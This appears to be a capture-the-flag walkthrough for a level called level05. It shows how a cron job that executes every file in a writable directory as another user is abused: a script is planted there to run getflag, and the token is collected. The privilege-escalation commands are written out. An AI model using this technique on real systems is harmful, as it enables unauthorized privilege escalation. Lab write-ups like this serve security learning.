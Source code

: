 When we log in we can see:

```
You have a new mail.
```

We have a file named level05 in /var/mail/level05:

```
$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Check the content of /usr/sbin/openarenaserver:

```
$ cat /usr/sbin/opearenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done 
```

This script iterate on every files in /opt/openarenaserver/ and execute it with the permissions of the crontab owner.
We need to create a little script to get the flag:

```
echo "getflag > /var/crash/flag" > /opt/openarenaserver/script
```

Wait 2 minutes and get the flag:

```
$ cat /var/crash/flag
Check flag.Here is your token : xxxxxxxxxxxxxxxxxxxxxxxxx
```
